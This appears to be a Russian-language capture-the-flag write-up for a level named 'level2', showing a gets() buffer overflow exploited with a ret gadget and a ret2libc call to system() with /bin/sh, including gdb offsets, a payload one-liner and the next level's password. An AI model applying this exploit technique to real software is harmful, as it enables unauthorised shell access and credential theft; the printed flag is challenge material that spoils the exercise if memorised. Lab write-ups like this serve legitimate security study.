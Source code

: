 
# get - Уязвимость к переполнению буфера
```
=> 0x80484ed <p+25>:	call   0x80483c0 <gets@plt>
```
# Выполняется проверка, чтобы убедиться, что мы не перезаписываем адрес возврата на адрес в стеке
```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```
# обманем тест, используя 'ret' для эксплойта libc
# находим адрес функции 'system' в libc
```
gdb> info function system
0xb7e6b060  system
```
# находим адрес функции 'ret'
```
=> 0x804853e <p+106>:	ret
```
# Экспортируем shell, который хотим использовать
```
$> export SHELL=/bin/sh
```
# Пишем программу для поиска адресов переменных окружения
```
$> vi proga.c
```
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    printf("%s at %p\n", argv[1], getenv(argv[1]));
}
```
```
$> gcc proga.c -o proga; ./proga SHELL
SHELL is at 0xbffff935
```
# нужно найти, по какому смещению происходит переполнение буфера
```
gdb> pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb> r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 76
EIP+0 found at offset: 80
```
# Теперь просто надо подготовить payload
```
$> python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$> cat /tmp/payload2 - | ./level2
```
```
cat /home/user/level3/.pass
```
> 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02


# ╮(￣_￣)╭